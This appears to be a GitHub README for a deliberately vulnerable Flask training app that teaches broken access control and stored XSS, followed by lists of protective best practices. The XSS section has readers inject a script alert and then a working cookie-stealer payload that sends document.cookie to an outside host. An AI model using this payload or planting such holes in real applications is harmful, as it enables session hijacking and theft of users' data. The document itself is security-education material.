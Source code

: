## Cybet Test System
 This is build in python flask framework, its developed to help in understanding of cyber security concepts such as Cross SIte Scripting, Broken Access Control, Session Managements

 ## Set Up

 ### Installation

    pip3 install pymysql 

 Install Xampp and import the database named CyberTestSystem.sql. 
 Open VS Code and open the Folder containing the python project.

 Run your Flask App.
 Access  http://127.0.0.1:5000/signin

 ### Broken Access Control 
 The Application has 2 user Account: Admin and User Roles<br>
 Admins can only View Messages and Users can Only Add a Message. <br>

 Login Credentials


  ![Alt text](db.png)


 The Application demonstrates how to SOlve Broken Access Control Issues in Cyber Security by having different users have access to specific functions in the System. 


 ### Broken Access Control Protection
 Broken Access Control is a significant security vulnerability where users can access data or functions they are not entitled to. To secure against broken access control, consider implementing the following best practices:

 <br>
 1. Enforce Least Privilege<br>
Minimal Access: Ensure users have the least privilege necessary to perform their functions. Regularly review roles and permissions to adjust as needed.<br>
Role-Based Access Control (RBAC): Implement RBAC to manage user permissions. Assign roles based on job functions and ensure these roles have the minimum required permissions.<br>

2. Use Strong Access Controls<br>
Authentication: Use strong, multi-factor authentication (MFA) to verify user identities.
Session Management: Properly manage user sessions, ensuring they time out after a period of inactivity and regenerate session IDs upon login.<br>

3. Implement Access Control Mechanisms<br>
Centralized Access Control Logic: Implement centralized access control logic to avoid inconsistencies. Use a single point of access control for all resource checks.
Deny by Default: Deny access by default, and explicitly grant permissions where necessary.

4. Validate Permissions on Server-Side<br>
Server-Side Checks: Always enforce access control on the server side. Never rely on client-side controls, as they can be bypassed.<br>
Parameterize Access Checks: Use parameterized access checks to ensure permissions are verified against each specific resource or action.<br>

5. Use Secure Development Practices<br>
Code Reviews: Conduct regular code reviews focusing on access control issues.
Security Testing: Perform security testing, including automated scanning and manual penetration testing, to identify and fix access control weaknesses.<br>
Static and Dynamic Analysis: Use static code analysis tools to identify potential access control flaws and dynamic analysis tools to verify the application's behavior.<br>

6. Implement Logging and Monitoring<br>
Audit Logs: Maintain detailed logs of access control decisions and user actions. Monitor these logs for suspicious activity.<br>
Real-Time Monitoring: Implement real-time monitoring and alerting for access control violations.

7. Education and Awareness<br>
Developer Training: Educate developers about access control risks and best practices. Ensure they understand the importance of secure coding practices.
User Awareness: Inform users about the importance of secure practices, such as not sharing credentials and recognizing phishing attempts.<br>

8. Review and Update Access Controls Regularly<br>
Regular Audits: Regularly audit access controls and update them as necessary. Ensure that permissions are still appropriate for current user roles.<br>
Automated Tools: Use automated tools to help manage and review access control configurations.

10. Use Frameworks and Libraries<br>
Security Frameworks: Leverage security frameworks and libraries that provide built-in access control mechanisms, such as Spring Security for Java or ASP.NET Identity for .NET applications.


 ### Stored XSS
 Stored XSS, also known as persistent XSS, is the more damaging of the two. It occurs when a malicious script is injected directly into a vulnerable web application, mostly it ca be stored in the database. This Script will execute when a user visits a Page that fetches the data containing the injected script. Reflected XSS on the other hand involves the reflecting of a malicious script off of a web application, onto a user's browser.

 This application also demonstrates stored XSS scenario and their Protection.


 To test stored XSS in this application, Login to the application as a user, Navigate to Add Messages, Type the Message Title as "Request for Permission". In the Message Body Type a message which includes a Javascript code.. We will assume below code could be malicious. <br>

       I was requesting for an off.
        <script>alert("Hello JS");</script>
       Thank you.

Please confirm in the messages table in your database that the Above script has been saved as it is.
This is what is called injected Script, The Attacker pretends to be posting a Message but instead the message is accompanied by some malicious code.
<br>
Now, logout and login as admin, assuming the admin want to read the posted messages.
Once logged in as admin, click view messages.
<br>
What happens?<br>
The Javascript injected or stored in one of the messages, executes!
<br>
![Alt text](image.png)
<br>
This means the attacker manages to execute their codes in your own application!
<br>
It also means the attacker can inject/plant a malicious code that could either; <br>
1. Steal User cookies and sessions <br>
2. Encrypt/Delete some data<br>
3. Any other malicious code.<br>


Here is an example of Javascript Cookie stealer that can be injected and stored, Once it executes it could steal user session data in the browser<br>

Below code we steal victim's data stored in browser, i.e sessions and send to the attacker through https://coding.co.ke/ss/ domain. <br>

Try Inject below code as a message in our App<br>

      <script>
         document.location='https://coding.co.ke/ss/cookiestealer.php?c='+document.cookie;
      </script>



 ### XSS Protection
 To protect against stored XSS, follow these best practices:

1. Input Validation and Sanitization<br>
Whitelist Input Validation: Only allow expected inputs. For example, if a field is expected to contain only numbers, ensure that it contains only numbers.
Sanitize Input: Remove or escape special characters that could be used to inject malicious scripts. Use libraries or built-in functions to sanitize input. For example, in PHP, use htmlspecialchars() to convert special characters to HTML entities.
<br>

2. Output Encoding<br>
HTML Encoding: Encode all user-generated content before outputting it in HTML. This prevents the browser from interpreting it as executable code. For example, in JavaScript, you can use textContent instead of innerHTML.
Attribute Encoding: Properly encode data being placed in HTML attributes. Use functions like htmlspecialchars() or htmlescape() in your server-side language.
JavaScript Encoding: When inserting user data into JavaScript, ensure it's properly encoded to avoid script injection.

<br>

3. Content Security Policy (CSP)<br>
Implement a Content Security Policy to restrict the sources from which your web application can load resources. This can help mitigate the impact of XSS by blocking the execution of malicious scripts.

<br>
Content-Security-Policy: script-src 'self';
<br>

4. HTTPOnly and Secure Cookies<br>
HTTPOnly Cookies: Set the HttpOnly flag on cookies to prevent access to them via JavaScript.
Secure Cookies: Use the Secure flag to ensure cookies are only sent over HTTPS.

<br>

5. Web Application Firewalls (WAFs)<br>
Deploy a web application firewall that can detect and block malicious requests based on patterns.

<br>

6. Regular Security Audits and Penetration Testing<br>
Conduct regular security audits and penetration testing to identify and fix vulnerabilities before they can be exploited.

<br>

7. Frameworks and Libraries<br>
Use modern web frameworks that automatically handle many common security concerns, including XSS protection. For example, frameworks like React and Angular escape data by default.

<br>

8. Proper Session Management<br>
Implement proper session management practices to minimize the risk of session hijacking due to XSS. This includes setting appropriate session timeouts and regenerating session IDs on login.

<br>

9. Educate Developers<br>
Ensure that developers are educated about security best practices and understand the common vectors for XSS attacks and how to prevent them.
